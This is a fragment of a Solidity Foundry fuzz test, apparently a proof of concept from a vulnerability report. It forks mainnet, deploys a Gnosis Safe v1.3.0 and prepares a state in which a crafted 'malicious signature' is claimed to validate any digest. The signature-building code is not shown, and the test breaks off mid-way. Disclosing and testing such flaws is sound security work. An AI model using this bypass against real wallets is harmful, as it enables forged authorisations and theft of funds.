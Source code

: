 ```solidity
        //fork MAinnet
        uint forkId = vm.createSelectFork(MAINNET_RPC_URL);
        //make EOA and privateKey for owner
        (EOAOwner,EOAPrivateKey) = makeAddrAndKey("EOAOwner");

        //Building params for calling `SAFE_PROXY_FACTORY::createProxyWithNonce()`
        address[] memory _owners = new address[](1);
        _owners[0] = EOAOwner;
        bytes memory initializer = abi.encodeCall(
            ISafeSetup.setup,
            (_owners, 1, address(0), "", COMPATIBILITY_FALLBACK_HANDLER, address(0), 0, payable(address(0)))
        );
        //deploy safe
        address deployedSafe = SAFE_PROXY_FACTORY.createProxyWithNonce(SAFE_SINGLETON, initializer, 66666666);
        safeV_1_3_0 = IGnosisSafe(payable(deployedSafe));
        //assert correct deployment
        assertEq(EOAOwner,safeV_1_3_0.getOwners()[0]);
        
    }
    /**
    @dev This is a fuzz-test demonstrating that at the aforementioned vulnerable state, there exists a malicious signature that verifies all digest 
    (including bytes32(0)) as if it were rightly signed by user. CRITICAL!!
     */
    function testFuzz_BypassSignatureV_1_3_0(uint _randomDigest) public {
        string memory version = "1.3.0";
        assertEq(version, safeV_1_3_0.VERSION(),"Not expected version (1.3.0)");
        //generate and cache Malicious signature
        bytes memory malicioussignature = generateMaliciousSignature();
        address payable nullPayableAddress;
        Enum.Operation operation = Enum.Operation.wrap(0);
        uint256 nullUint;
        address nullAddress;
        uint256 _nonce = safeV_1_3_0.nonce();

        //Demonstrates signature verification correctly returns false for unsigned digest before state
        //change to address(handler) as owner
        vm.expectRevert();
        bool verified = address(safeV_1_3_0).isValidSignatureNow(bytes32(_randomDigest), malicioussignature); 
        //assert False for verification
        assertFalse(verified);

        //Now change to vulnerable state (adding an owner)
        bytes32 txHash = IGnosisSafe(payable(safeV_1_3_0)).getTransactionHash(
            address(safeV_1_3_0),
            nullUint,
            abi.encodeCall(IGnosisSafe.addOwnerWithThreshold, (COMPATIBILITY_FALLBACK_HANDLER, 1)),
            operation,
            nullUint,
            nullUint,
            nullUint,
            nullAddress,
            nullPayableAddress,
            _nonce
        );
        //sign txHash for safe tx (ie adding an owner)
        (uint8 v, bytes32 r, bytes32 s) = vm.sign(EOAPrivateKey, txHash);
        bytes memory sig = abi.encodePacked(r, s, v);
        //call safe Tx
```